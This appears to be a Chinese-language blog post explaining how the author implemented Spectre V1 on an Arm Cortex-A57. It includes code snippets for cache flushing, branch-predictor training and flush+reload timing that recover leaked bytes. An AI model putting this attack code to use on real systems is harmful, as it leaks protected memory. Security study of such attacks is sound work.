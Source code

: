```yaml
---
layout: post
title: Spectre on Arm cortex A57
categories: [Microarchitecture vulnerability]
description: Cache
keywords: Microarchitecture
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


# Spectre V1 on Arm
本文主要讨论spectre v1在Arm Cortex 57上的实现．具体的原理可以查看论文　https://spectreattack.com/spectre.pdf.
Spectre 的原理不复杂, 但是具体的实现不太好描述 (本人表达能力实在很有限, 高中语文考试基本都是倒数, 如果你不巧看到这个文章看的很糊涂, 可以发邮件问我
, 但是有些问题我也不会). 全部的代码会在毕业设计结束之后开源.
## Spectre V1

最基本的就是，假如我将`array1_size` flush, 那么 CPU 需要一些时间访问物理内存获取变量的值.
这时候很多处理器会触发 out of order execution 乱序执行跳过这个分支判断. CPU 中一般存在一个缓存存储一些分支判断的结果,
在跳过这个判断的时候,会参考这个缓存, 如果之前几次的分支判断都是 True, 那么在乱序执行中, 这个分支就会默认为通过, 从而执行
分支内部的代码. 
```
if (x < array1_size)
    y = array2[array1[x] * 4096];
```
假设现在我们通过一些方法使得分支预测缓存里对于这个判断的结果都是通过, 但是传如一个 `x` 的值大于 `array_size`, 此时程序可以访问一个超出
`array2` 范围的位置, 并且用获取的值访问 `reloadbuffer` (`array1`). 这时候我们可以通过 flush and reload 测信道获取这个值.

## Spectre V1 Arm cortex A57 implementation
有一个开源的仓库目前实现了 Arm 上的Spectre V1攻击, 我的实现中利用了他的分支训练思路, 暂时找不到是哪个了, 我找到了之后再更新.
大致思路如下:

首先我们通过 flush and reload 计算出 cache hit 和 cache miss 的分界是多少.
```
CACHE_THRESHOLD = measure_latency();
```

随后我们开始训练分支并且泄漏我们想要泄漏的字符串. 先将我们的 `reloadbuffer` 从缓存中 flush 掉. 最好在每一次内存操作的时候添加一个内存屏障 `barrier`,
从而保证我们操作内存的时候, 不会因为乱序执行导致 flush 没有结束的时候后面的指令就开始执行. 

```
for (int i = 0; i < 256; i++)
	cacheflush(&reloadbuffer[i * STRIDE]); 
```
```
static inline __attribute__((always_inline)) void barrier(void){
  asm volatile ("DMB SY ");
}
```

我们将我们想要泄漏的字符串大小的值同时也 flush 出缓存, 导致分支判断变慢.
```
cacheflush(&array1_size);
```

这时候我们开始训练分支预测, 将分支预测训练为通过. 只有在 `j` 可以整除 `10` 的时候, `probe_addr` 会是 `target` 也就是我们想要泄漏的地址.
其他时候 `j` 都是 `train_index`, `train_index` 是在 `array1_size` 范围当中的. 每一轮最后 `probe_addr` 会变成 `target` (不在 `array1` 范围中).


```
probe_addr = ((j % 10) - 1) & ~0xFFFF; 
probe_addr = (probe_addr | (probe_addr >> 16)); 
probe_addr = train_index ^ (probe_addr & (target ^ train_index));
cacheflush(&array1_size);   // flush again (I dont know why)
spectre_v1(&probe_addr);
```
```
void spectre_v1(size_t *index) {
	if (*index < array1_size)
	{
		pick = reloadbuffer[fake_buffer[*index] * STRIDE];
	}
}
```

最后我们进行 `reload` 操作, 这里我们用了 `index = ((i * 167) + 13) & 255;` 打乱的访问顺序, 防止 prefetcher 干扰.
假如我们访问一个位置的时间少于我们计算出的 `CACHE_THRESHOLD`, 说明这时候出现了 cache hit, 也就是 `spectre_v1` 函数中访问过了
这个位置. 那么这个值就是我们要泄漏的一个字节. 
```
for (int i = 0; i < 256; i++)
{
	index = ((i * 167) + 13) & 255;
	measured_clock = timed_read(&reloadbuffer[index * STRIDE], &start, &end);
	if (measured_clock <= CACHE_THRESHOLD && index != fake_buffer[tries % array1_size])
		results[index]++; 
}
```

有一些比较重要的汇编内联函数大概是这样:
```
static inline __attribute__((always_inline)) void cacheflush(void* address)
{
  	asm volatile ("DC CIVAC, %0" :: "r"(address));
  	asm volatile ("DSB ISH");
  	asm volatile ("ISB");
}

static inline __attribute__((always_inline)) void barrier(void){
  	asm volatile ("DMB SY ");
}

//#include <time.h>
void clock_init(struct timespec *start){
  	clock_gettime(CLOCK_REALTIME, start);
}

void clock_end(struct timespec *end){
  	clock_gettime(CLOCK_REALTIME, end);
}

uint64_t get_clock(struct timespec start, struct timespec end){
  	return BILLION * (end.tv_sec - start.tv_sec) + end.tv_nsec - start.tv_nsec;
}

static uint64_t timed_read(volatile uint8_t *addr, struct timespec *start, struct timespec *end) {
	volatile uint8_t pick = 0; 
  	clock_init(start);
	pick = *addr;
  	clock_end(end);
	barrier();
  	return get_clock(*start, *end);
}
```


